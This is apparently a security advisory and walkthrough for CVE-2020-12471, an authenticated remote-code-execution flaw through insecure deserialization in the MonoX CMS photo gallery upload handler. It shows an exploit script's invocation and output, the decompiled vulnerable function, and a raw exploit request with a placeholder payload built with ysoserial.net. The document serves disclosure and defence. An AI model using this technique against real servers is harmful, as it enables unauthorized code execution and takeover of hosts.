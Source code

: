```yaml
---
layout: default
grand_parent: MonoX CMS
nav_order: 1
parent: CVE-2020-12471 - RCE via Insecure Deserialization
title: RCE via Photogallery
---
```


# Photogallery - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadModule`. The manipulation of the of the **ctl00$ctl00$ctl01$ctl00$cp$cp$wpm$gwpsnPhotoGallery$snPhotoGallery$photoUpload$ctlUpload$handlerResponse** parameter leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12471. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily identified by code inspection. The affected function is the following:

```csharp
//#Kw Decompiled function name
private void #Kw(object sender, EventArgs e)
    {
        if (this.EnableFileGallery && ApplicationSettings.TrustLevel == AspNetHostingPermissionLevel.Unrestricted)
        {
            string[] array = this.handlerResponse.Value.Split(string.Format("{0},", "(SEPARATOR)"));
            foreach (string text in array)
            {
                string s = text.Replace("(SEPARATOR)", string.Empty);
                SnFileDTO snFileDTO = null;
                try
                {
                    snFileDTO = (SnFileDTO)BinarySerializer.Deserialize(Convert.FromBase64String(s));
                }
                catch
                {
                    snFileDTO = null;
                }
                if (snFileDTO != null)
                {
                    this.UploadedFileDTOs.Add(snFileDTO);
                }
            }
            this.handlerResponse.Value = string.Empty;
            this.UploadedFileDTOs = null;
            this.fileGallery.BindData();
        }
        this.OnFilesUploaded(this.EntityId, this.EntityType);
    }

```
This function got called after an image was uploaded in the gallery. Intercepting the traffic with Burp revealed the endpoint. The litmus test was finding a base64 encoded string followed by `(SEPARATOR)`. An example request is following:

<pre>
<code>
POST /MonoX/Pages/SocialNetworking/lng/en-US/PhotoGallery.aspx HTTP/1.1
Host: monox.local
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/71.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: {Stripped}
Content-Length: 5240

ctl00%24ctl00%24ctl01%24ctl00%24cp%24cp%24wpm%24gwpsnPhotoGallery%24snPhotoGall
ery%24photoUpload%24ctlUpload%24handlerResponse=<strong style="color: blue;">{base64-enc-payload}</strong><strong style="color: red;">(SEPARATOR)</strong>
&ctl00_ctl00_ctl01_ctl00_cp_cp_wpm_gwpsnPhotoGallery_snPhotoGallery_photoUpload
_ctlUpload_fileGallery_wndManager_ClientState=&ctl00_ctl00_ctl01_ctl00_editorSo
urceWindowManager_ClientState=&__VIEWSTATE_WAOKEY=&__VIEWSTATE=&__SCROLLPOSITIO
NX=0&__SCROLLPOSITIONY=0&__ASYNCPOST=true&ctl00%24ctl00%24ctl01%24ctl00%24cp%24
cp%24wpm%24gwpsnPhotoGallery%24snPhotoGallery%24photoUpload%24ctlUpload%24btnPo
stback=
</code>
</pre>

With these information, it was fairly easy to trigger an RCE via deserialization crafting a payload with **ysoserial.net**.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)